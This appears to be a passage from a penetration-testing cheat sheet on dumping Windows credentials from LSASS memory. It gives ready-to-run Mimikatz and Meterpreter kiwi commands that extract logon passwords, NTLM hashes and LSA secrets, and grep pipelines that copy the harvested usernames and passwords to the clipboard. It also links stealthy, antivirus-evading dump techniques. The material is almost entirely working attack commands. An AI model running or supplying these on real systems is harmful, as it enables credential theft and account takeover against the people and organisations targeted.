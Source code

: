 Grep for secrets:

```
 # Mimikatz
$ grep '* Username : ' out.txt -A2 | grep -e Username -e Password -e NTLM | grep -v null | xclip -i -sel c
 # Pypykatz
$ grep -P '\tusername ' out.txt -A2 | grep -e username -e password | grep -v None | xclip -i -sel c
$ grep -P 'Username: ' out.txt -A4 | grep -e Username -e Domain -e NT | grep -v None | xclip -i -sel c
```


#### Silent Process Exit

* [https://www.deepinstinct.com/2021/02/16/lsass-memory-dumps-are-stealthier-than-ever-before-part-2/](https://www.deepinstinct.com/2021/02/16/lsass-memory-dumps-are-stealthier-than-ever-before-part-2/)
* [https://github.com/deepinstinct/LsassSilentProcessExit](https://github.com/deepinstinct/LsassSilentProcessExit)



### Mimikatz

In case of Windows 10 version 1803-1809 use [Mimikatz v2.1.1](https://github.com/gentilkiwi/mimikatz/files/4167347/mimikatz_trunk.zip), see [Key import error](https://github.com/gentilkiwi/mimikatz/issues/248):

```
Cmd > .\mimikatz.exe "privilege::debug" "log out.txt" "sekurlsa::logonpasswords full" "exit"
```


#### kiwi

```
meterpreter > getsystem
meterpreter > load kiwi
meterpreter > creds_msv
meterpreter > creds_all
meterpreter > lsa_dump_secrets
meterpreter > kiwi_cmd '"privilege::debug" "sekurlsa::logonpasswords full" "exit"'
```



### Reusing Open Handles

* [https://github.com/jfmaes/SharpHandler](https://github.com/jfmaes/SharpHandler)


#### Pypykatz

* [https://skelsec.medium.com/duping-av-with-handles-537ef985eb03](https://skelsec.medium.com/duping-av-with-handles-537ef985eb03)
* [https://github.com/skelsec/pypykatz/releases/latest](https://github.com/skelsec/pypykatz/releases/latest)
